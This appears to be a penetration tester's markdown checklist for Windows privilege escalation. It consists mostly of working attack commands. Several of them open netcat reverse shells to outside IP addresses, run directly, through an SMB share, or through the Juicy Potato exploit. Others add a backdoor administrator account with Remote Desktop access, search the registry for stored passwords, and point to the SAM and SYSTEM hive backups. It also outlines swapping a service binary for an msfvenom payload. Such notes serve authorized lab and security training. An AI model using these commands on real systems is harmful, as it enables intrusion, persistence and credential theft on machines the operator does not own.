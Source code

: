 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
  - [ ] [NT AUTHORITY\LOCAL SERVICE](https://itm4n.github.io/localservice-privileges/?ref=benheater.com); This will enable `SeImpersonatePrivilege`.
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] `SeImpersonatePrivilege`
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer): SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe
  - [ ] `AlwaysInstallElevated`
  - [ ] `SeDebugPrivilege`
- [ ] Check installed softwares: `c:\Program Files (x86)`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
- [ ] Check Unqouted Path Service
```
#FIND SERVICE
wmic service get name,displayname,pathname,startmode |findstr /i "auto"

#CHANGE FILE WITH MSFVENOM PAYLOAD (DOWNLOAD WITH CERTUTIL)

#REBOOT
shutdown /r
```
- [ ] Look for passwords in registries
```
req query HKLM /f pass /t REG_SZ /s
```

---

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```

# Shell Upgrade
```
#COPY NETCAT
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVE IT VIA SMB
smbserver.py -smb2support -username evil -password evil evil $PWD

#START LISTENER ON ANOTHER PORT
nc -lnvp 80

#Execute nc.exe by using the UNC path.
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```

# Juicy Potato
We can use one of the BITS CSLIDs from here:
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
```
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```
